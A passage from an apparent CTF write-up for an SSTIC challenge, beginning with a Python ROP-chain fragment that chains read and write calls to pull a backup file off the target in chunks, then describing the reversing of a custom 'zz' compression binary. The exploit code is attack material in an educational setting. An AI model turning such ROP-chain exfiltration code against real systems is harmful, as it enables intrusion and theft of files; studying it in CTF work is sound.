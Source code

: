 ```python
    chunksize = min(0x10000, size - outf.tell())
    send_rop([
        # read(7, dataspace, chunksize)
        pop_rdi, 7,
        pop_rsi, dataspace,
        pop_rdx_rcx_rbx, chunksize, 0, 0,
        exebase + 0x21c0,
        # write(5, dataspace, chunksize)
        pop_rdi, 5,
        pop_rsi, dataspace,
        pop_rdx_rcx_rbx, chunksize, 0, 0,
        exebase + 0x20c0,
        # write(5, "__END_DATA__", 12)
        pop_rdi, 5,
        pop_rsi, Data(b"__END_DATA__"),
        pop_rdx_rcx_rbx, 12, 0, 0,
        exebase + 0x20c0,
    ])
    res = s.recvuntil(b"__END_DATA__", drop=True)
    if not res:
        break
    log.info("%d bytes", len(res))
    outf.write(res)
```

For whatever reason, this would keep breaking after four iterations (262144 bytes), so I had to run it several times to get the whole file ([`home_backup.tar.zz`](files/stage4/home_backup.tar.zz)).

### Reversing zz

The `home_backup.tar.zz` file is clearly compressed with the mystery [`zz`](chall/initramfs/home/sstic/sensitive/zz) program from `/home/sstic/sensitive`. This program asks for a single filename and compresses it to `<filename>.zz`. We can, for example, compress a file with a single `x` character to get the following compressed file:

```
00000000: 1600 0001 0000 0400 0000 7800 0001 0000  ..........x.....
00000010: 0040 0000 0000 0000 00                   .@.......
```

Let's reverse the `zz` binary to see how it compresses files. First, the program executes a setup function at 0x1225 from `.init_array`, which allocates some memory at 0x11100000:

- 0x11100000 for 0x1000 bytes: RW memory, uninitialized
- 0x1111a000 for 0x1000 bytes: RW memory, copied from 0x10697
- 0x11111000 for 0x8000 bytes: RX memory, copied from 0x9250, with 0x3d bytes at 0x11118fc3 copied from 0x16c9

Then, the entrypoint at 0x1140 calls `__libc_start_main`, which calls `main` at 0x1379. Strangely, this function allocates a 0x4000 block of memory at 0xff550000, and then sets RSP to 0xff553ef8, pivoting the stack to this new chunk of memory. It pushes the old RSP, and restores it before returning.

Besides the weird stack pivot, `main` is otherwise pretty straightforward: it opens the file from the first argument, allocates a big block of memory at 0x20000 which is sized based on the input file, reads the entire file into the memory block, and calls the function at 0x2d4c. Upon returning from that function, it opens the `.zz` file and writes data from the memory block into that file, then quits.
